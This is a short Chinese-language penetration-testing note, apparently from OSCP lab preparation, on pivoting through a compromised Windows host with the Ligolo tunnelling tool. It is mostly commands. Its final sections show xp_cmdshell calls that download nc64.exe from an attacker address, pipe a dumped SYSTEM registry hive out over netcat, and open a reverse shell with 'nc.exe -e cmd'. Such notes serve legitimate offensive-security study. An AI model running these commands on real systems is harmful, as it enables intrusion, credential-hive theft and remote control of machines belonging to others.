 kali 中启动 liglo （Proxy）
```bash
./proxy -selfcert
```
把 agent 文件传输到靶机后执行 （Agent）
```bash
.\agent.exe -connect KALIIP:KALIPORT -ignore-cert
```
等待 kali 中收到监听
```
session 指定 proxy 的 session
ifconfig 查看代理的网卡
```

**添加新的 ip**
```bash
sudo ip route add 10.10.120.0/24 dev ligolo
ip route list
```

输入 start 即可启动代理

**如果文件无法传输，可以尝试再添加一个代理监听**
- Kali > target
```bash
listener_add --addr 0.0.0.0:1235 --to 127.0.0.1:80
linstener_list
```

```bash
0 │ #1 - OSCP\web_svc@MS01 - 192.168.152.147:50116 │ tcp     │ 0.0.0.0:1234           │ 127.0.0.1:80 
xp_cmdshell "powershell iwr -Uri http://10.10.112.147:1234/nc64.exe -OutFile C:\programdata\nc.exe"
```
[+] : 这边访问的1234端口一定是我们执行 agent 的主机的内网 ip ，不然无法访问

- Target > Kali
```bash
listener_add --addr 0.0.0.0:5556 --to 127.0.0.1:1234
2 │ #1 - OSCP\web_svc@MS01 - 192.168.152.147:50116 │ tcp     │ 0.0.0.0:5556           │ 127.0.0.1:1234 
```

```bash
rlwrap nc -lvvp 1234 > SYSTEM (kali)
type .\SYSTEM | C:\programdata\nc.exe 10.10.112.147 5556 (Target)
```

**如果无法直接连接到 kali，通过跳板的形式拿到 rev shell**
```bash
[Agent : OSCP\web_svc@MS01] » listener_add --addr 0.0.0.0:5555 --to 127.0.0.1:2233
```

```bash
 1 │ #1 - OSCP\web_svc@MS01 - 192.168.152.147:50116 │ tcp     │ 0.0.0.0:5555           │ 127.0.0.1:2233
xp_cmdshell "C:\programdata\nc.exe -e cmd 10.10.112.147 5555"
```
